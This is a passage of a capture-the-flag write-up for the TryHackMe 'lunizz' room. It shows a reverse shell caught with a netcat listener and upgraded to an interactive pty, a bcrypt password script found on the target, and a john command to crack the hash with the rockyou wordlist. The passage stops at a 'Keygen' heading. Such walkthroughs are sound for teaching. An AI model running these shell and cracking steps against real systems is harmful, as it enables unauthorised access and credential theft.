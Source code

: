 
# User

First up we need a proper terminal:
```bash
www-data@lunizz:/var/www/html/whatever$ python3 -c "import pty;pty.spawn('/bin/bash')"
<ver$ python3 -c "import pty;pty.spawn('/bin/bash')"
www-data@lunizz:/var/www/html/whatever$ export SHELL=/bin/bash;export TERM=xterm-256color 
<$ export SHELL=/bin/bash;export TERM=xterm-256color
www-data@lunizz:/var/www/html/whatever$ 

www-data@lunizz:/var/www/html/whatever$ ^Z     
[1]+  Stopped                 nc -lvnp 8888
root@kali:~/CTFs/TryHackMe/lunizzctf# stty raw -echo; fg
```
Very nice. Now lets look around.
```
www-data@lunizz:/$ ls -a
.   bin   cdrom  etc   initrd.img      lib    lost+found  mnt  proc   root  sbin  srv	    sys  usr  vmlinuz
..  boot  dev	 home  initrd.img.old  lib64  media	  opt  pro**  run   snap  swap.img  tmp  var  vmlinuz.old
```
I went to `/` as the hint said, and huh..... one folder really is off. It contains another folder called `pass` with a python bcrypt script that we can read. Happy reading it is.
```python
import bcrypt
import base64

password = # https://www.youtube.com/watch?v=-tJYN-eG1zk&ab_channel=QueenOfficial
bpass = password.encode('ascii')
passed= str(base64.b64encode(bpass))
hashAndSalt = bcrypt.hashpw(passed.encode(), bcrypt.gensalt())
print(hashAndSalt)

salt = b'$2b$12$SVInH5XmuS3C7eQkmqa6UOM6sDIuumJPrvuiTr.Lbz3GCcUqdf.z6'
# I wrote this code last year and i didnt save password verify line... I need to find my password
```
So we have to watch the video. Lovely. </br>
Ah yes, rock you.... and a hash. What could that mean?

# Cracking the hash

This is a blowfish hash, so time to get crackin':
```
john --format=bcrypt --wordlist=rockyou.txt hash
```
And nothing, let me tell you in advance, this would take forever.

## Keygen
